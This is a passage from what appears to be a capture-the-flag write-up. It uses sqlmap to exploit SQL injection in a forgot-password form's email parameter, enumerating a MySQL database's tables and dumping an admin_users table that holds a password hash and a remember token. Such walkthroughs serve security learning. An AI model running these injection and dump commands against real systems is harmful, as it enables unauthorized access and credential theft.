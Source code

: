 As response, we find the following databases:
```
[*] information_schema
[*] performance_schema
[*] usage_blog
```
_The full output of `sqlmap` can be found [here](./logs/output_sqlmap_dbs.txt)_

The database `usage_blog` sounds interesting. If we adjust the command, we can examine the tables of the database:
```
sqlmap -r forget-pass.req -p "email" --dbms mysql --level 5 --risk 3 --batch -D usage_blog --tables
```
* `-D usage_blog` - the database to use
* `--tables` - get tables of the database

_The output can be found [here](./logs/output_sqlmap_tables.txt)._

We got the following tables:
```
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Let's check out the table `admin_users` further:
```
sqlmap -r forget-pass.req -p "email" --dbms mysql --level 5 --risk 3 --batch -D usage_blog -T admin_users --dump
```
* `-T admin_users` - the table to use
* `--dump` - dump all contents of the table

We find some credentials of the user `admin` (see [here](./logs/output_sqlmap_admin_users.txt) for full output):
```
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2024-07-02 13:02:21 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```

